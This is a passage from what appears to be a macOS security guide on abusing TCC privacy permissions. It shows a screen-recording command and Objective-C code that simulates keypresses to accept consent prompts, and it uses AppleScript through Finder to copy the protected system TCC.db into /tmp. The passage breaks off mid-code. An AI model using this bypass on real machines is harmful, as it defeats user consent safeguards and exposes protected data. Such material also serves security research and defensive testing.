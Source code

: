 ```objectivec
        [fileOutput stopRecording];
    });

    CFRunLoopRun();
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
}
```
{% endtab %}

{% tab title="Shell" %}
Record the main screen for 5s

```bash
screencapture -V 5 /tmp/screen.mov
```
{% endtab %}
{% endtabs %}

### Accessibility

* **Entitlement**: None
* **TCC**: `kTCCServiceAccessibility`

Use the TCC privilege to accept the control of Finder pressing enter and bypass TCC that way

{% tabs %}
{% tab title="Accept TCC" %}
```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <OSAKit/OSAKit.h>

// clang -framework Foundation -framework ApplicationServices -framework OSAKit -o ParallelScript ParallelScript.m
// TODO: Improve to monitor the foreground app and press enter when TCC appears

void SimulateKeyPress(CGKeyCode keyCode) {
    CGEventRef keyDownEvent = CGEventCreateKeyboardEvent(NULL, keyCode, true);
    CGEventRef keyUpEvent = CGEventCreateKeyboardEvent(NULL, keyCode, false);
    CGEventPost(kCGHIDEventTap, keyDownEvent);
    CGEventPost(kCGHIDEventTap, keyUpEvent);
    if (keyDownEvent) CFRelease(keyDownEvent);
    if (keyUpEvent) CFRelease(keyUpEvent);
}

void RunAppleScript() {
    NSLog(@"Starting AppleScript");
    NSString *scriptSource = @"tell application \"Finder\"\n"
                             "set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias\n"
                             "set targetFolder to POSIX file \"/tmp\" as alias\n"
                             "duplicate file sourceFile to targetFolder with replacing\n"
                             "end tell\n";

    NSDictionary *errorDict = nil;
    NSAppleScript *appleScript = [[NSAppleScript alloc] initWithSource:scriptSource];
    [appleScript executeAndReturnError:&errorDict];

    if (errorDict) {
        NSLog(@"AppleScript Error: %@", errorDict);
    }
}

int main() {
    @autoreleasepool {
        dispatch_async(dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_DEFAULT, 0), ^{
```